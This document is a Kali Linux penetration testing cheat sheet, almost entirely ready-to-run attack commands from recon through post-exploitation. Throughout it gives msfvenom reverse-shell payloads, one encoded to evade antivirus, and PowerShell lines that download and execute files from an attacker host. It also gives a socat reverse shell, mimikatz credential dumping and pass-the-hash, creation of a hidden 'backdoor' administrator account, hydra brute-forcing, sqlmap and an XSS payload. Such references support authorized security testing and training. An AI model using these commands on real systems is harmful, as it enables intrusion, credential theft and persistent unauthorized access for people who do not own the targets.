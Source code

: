 
# 🛠 Penetration Testing Cheat Sheet (Kali Linux)

## 📌 1. Information Gathering

### 🔹 Passive Recon
- Whois Lookup:  
  ```bash
  whois target.com
  ```
- Google Dorking:  
  ```
  site:target.com filetype:pdf
  ```
- Subdomain Enumeration:  
  ```bash
  theHarvester -d target.com -l 500 -b google
  ```

### 🔹 Active Recon
- DNS Enumeration:  
  ```bash
  dig axfr @dns-server target.com
  dnsenum target.com
  ```
- Port Scanning (Nmap):  
  ```bash
  nmap -p- -sC -sV -oN scan.txt target_ip
  ```
- SMB Enumeration:  
  ```bash
  enum4linux -a target_ip
  smbclient -L //target_ip/
  ```

## 📌 2. Vulnerability Scanning

### 🔹 Nmap Scripts
```bash
nmap --script vuln target_ip
```
### 🔹 Nessus Scan
1. Start Nessus:  
   ```bash
   systemctl start nessusd
   ```
2. Login to `https://127.0.0.1:8834`.

## 📌 3. Exploitation

### 🔹 SQL Injection
```bash
sqlmap -u "http://target.com/page?id=1" --dbs
```

### 🔹 XSS Attack
```html
<script>alert('XSS');</script>
```

### 🔹 Buffer Overflow (Windows)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=your_ip LPORT=4444 -f exe > exploit.exe
```

### 🔹 Public Exploits
```bash
searchsploit apache
```

## 📌 4. Privilege Escalation

### 🔹 Linux PE
```bash
sudo -l
find / -perm -4000 2>/dev/null
```
Tool:  
```bash
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/main/linPEAS/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### 🔹 Windows PE
```powershell
whoami /priv
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```
Tool:  
```powershell
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker-ip/winPEAS.bat')"
```

## 📌 5. Post-Exploitation

### 🔹 Dump Credentials (Windows)
```powershell
mimikatz
sekurlsa::logonpasswords
```

### 🔹 Maintain Access
```bash
net user backdoor P@ssw0rd /add
net localgroup administrators backdoor /add
```

## 📌 6. Password Attacks

### 🔹 Wordlist Attack
```bash
hydra -l admin -P rockyou.txt target.com http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```

### 🔹 Crack Hashes
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

## 📌 7. File Transfers

### 🔹 Linux
```bash
wget http://attacker-ip/file.sh
```
### 🔹 Windows
```powershell
powershell -c "(New-Object Net.WebClient).DownloadFile('http://attacker-ip/file.exe','C:\Users\Public\file.exe')"
```

## 📌 8. Antivirus Evasion
- Encode Payload:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f exe -e x86/shikata_ga_nai -o evade.exe
```

## 📌 9. Tunneling & Port Forwarding

### 🔹 SSH Tunneling
```bash
ssh -L 8080:localhost:80 user@target
```

### 🔹 Socat Reverse Shell
```bash
socat tcp-connect:attacker-ip:4444 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

## 📌 🔟 Active Directory Attacks

### 🔹 BloodHound Enumeration
```bash
neo4j console &
bloodhound
```

### 🔹 Pass-the-Hash (Windows)
```powershell
mimikatz
sekurlsa::pth /user:Administrator /domain:target.local /ntlm:HASH
```

## 📌 📌 Full Attack Flow Example

1. Recon → Gather info (`nmap`, `recon-ng`).
2. Scan → Find vulnerabilities (`nmap --script vuln`).
3. Enumerate → Test exposed services (`enum4linux`).
4. Exploit → Use public exploits (`searchsploit`).
5. Low Privilege Shell → Gain initial access.
6. Privilege Escalation → Get root/admin (`winPEAS`, `linPEAS`).
7. Credential Dumping → Extract passwords (`mimikatz`).
8. Pivot & Lateral Movement → Exploit other machines (`proxychains`).
9. Cleanup & Report → Document findings.
